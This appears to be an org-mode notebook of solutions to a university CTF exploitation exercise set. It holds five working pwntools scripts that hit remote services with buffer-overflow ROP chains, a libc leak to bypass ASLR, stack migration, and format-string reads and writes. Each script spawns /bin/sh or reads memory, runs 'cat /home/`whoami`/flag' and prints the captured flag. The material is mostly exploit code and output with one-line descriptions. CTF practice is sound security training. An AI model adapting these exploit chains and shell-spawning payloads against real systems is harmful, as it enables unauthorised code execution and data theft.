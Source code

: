 * prac3
** simplerop_revenge
   simple ROP, use buffer overflow to write ROP gadget and call exec system call
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *

host = "csie.ctf.tw"
port = 10130
context.arch = "amd64"


buf_addr = 0x6c9a20
binsh = b"/bin/sh\x00"
payload = b"A" * (0x20 + 8)
syscall = 0x4671b5
pop_rdi = 0x401456
pop_rsi = 0x401577
pop_rax_rdx_rbx = 0x478516
mov_drdi_rsi = 0x47a502
ropchain = flat([payload, pop_rdi, buf_addr,
                 pop_rsi, binsh, mov_drdi_rsi,
                 pop_rax_rdx_rbx, 59, 0,
                 0, pop_rsi, 0, syscall])

r = remote(host, port)
r.recvuntil(":")
r.send(ropchain)
r.sendline("cat /home/`whoami`/flag")
f = r.recvline()
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10130
[x] Opening connection to csie.ctf.tw on port 10130: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10130: Done
b'FLAG{TAKEMY_REVENGE}\n'
[*] Closed connection to csie.ctf.tw port 10130
#+END_SRC

** ret2plt
   use ROP to leak libc address to bypass ASLR, and call system to get shell
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both

from pwn import *

host = "csie.ctf.tw"
port = 10131
context.arch = "amd64"

buf = 0x601040

payload = b"A" * (0x20 + 8)
pop_rdi = 0x4006f3
pop_rsi_r15 = 0x4006f1


puts_plt = 0x4004e0
puts_got = 0x601018
gets_plt = 0x400510
puts_off = 0x6f690
system_off = 0x45390


ropchain1 = flat([payload, pop_rdi, puts_got, puts_plt,
                  pop_rdi, puts_got, gets_plt, pop_rdi,
                  puts_got+8, puts_plt])


r = remote(host, port)
r.recvuntil(":")
r.sendline(ropchain1)
r.recvline()
puts_addr = u64(r.recvline().strip().ljust(8, b"\x00"))
libc_base = puts_addr - puts_off
system_addr = libc_base + system_off
r.sendline(p64(system_addr) + b"/bin/sh" )
r.sendline("cat /home/`whoami`/flag")
f = r.recvline()
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10131
[x] Opening connection to csie.ctf.tw on port 10131: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10131: Done
b'FLAG{YOUCAN_RET_2_EVERYWHERE}\n'
[*] Closed connection to csie.ctf.tw port 10131
#+END_SRC

** migr4ti0n
   because no enough space for ROP, so we write ROP chain to =.data= section by point rbp to it 
   (key word: Stack migration) and repeat jump between 2 ROP buffer.
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *

host = "csie.ctf.tw"
port = 10132

context.arch = "amd64"
payload = b"A" * 0x30

puts_plt = 0x4004d8
puts_got = 0x600fd8
read_plt = 0x4004e0
system_off = 0x45390
puts_off = 0x6f690

leave_ret = 0x40064a
pop_rdi = 0x4006b3
pop_rdx = 0x4006d4
pop_rsi_r15 = 0x4006b1

buf1 = 0x00602000 - 0x200
buf2 = buf1 + 0x100

#read(0, buf1, size)
rop1 = flat([payload, buf1, pop_rdi, 0, pop_rsi_r15, buf1, 0,
             pop_rdx, 0x100, read_plt, leave_ret])

rop2 = flat([buf2, pop_rdi, puts_got, puts_plt,
             pop_rdi, 0, pop_rsi_r15, buf2, 0,
             pop_rdx, 0x100, read_plt, leave_ret])
r = remote(host, port)
r.recvline()
r.send(rop1)
r.send(rop2)
puts_addr = u64(r.recvline().strip().ljust(8, b"\x00"))
libc_base = puts_addr - puts_off
system_addr = libc_base + system_off

rop3 = flat([buf1, pop_rdi, buf2 + 8*4, system_addr, "/bin/sh\x00", leave_ret])
r.send(rop3)
r.sendline("cat /home/`whoami`/flag")
f = r.recvline()
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10132
[x] Opening connection to csie.ctf.tw on port 10132: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10132: Done
b'FLAG{49796c31e88bf1c45fc21212693e07cd652296dd}\n'
[*] Closed connection to csie.ctf.tw port 10132
#+END_SRC

** cr4ck
   use format string to leak memory.
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *

host = "csie.ctf.tw"
port = 10133


flag = p64(0x600ba0)
r = remote(host, port)

r.sendline(b"aaaa%7$s"+ flag)
f = r.recvline().split(b"aaaa")[-1]
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10133
[x] Opening connection to csie.ctf.tw on port 10133: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10133: Done
b'FLAG{CRACKCR4CKCRaCK}\n'
[*] Closed connection to csie.ctf.tw port 10133
#+END_SRC

** craxme
   use format string to overwrite variable value

#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *

host = "csie.ctf.tw"
port = 10134

r = remote(host , port)

magic = 0x0060106c
fmt1 = b"%218c%22$n".ljust(0x80, b"A") + p64(magic)
r.recvuntil(":")
r.send(fmt1)
f = r.recvline()
print(f[0x153:])
r.close()
#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10134
[x] Opening connection to csie.ctf.tw on port 10134: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10134: Done
b'FLAG{JUST CRAXME!@_@}\n'
[*] Closed connection to csie.ctf.tw port 10134
#+END_SRC
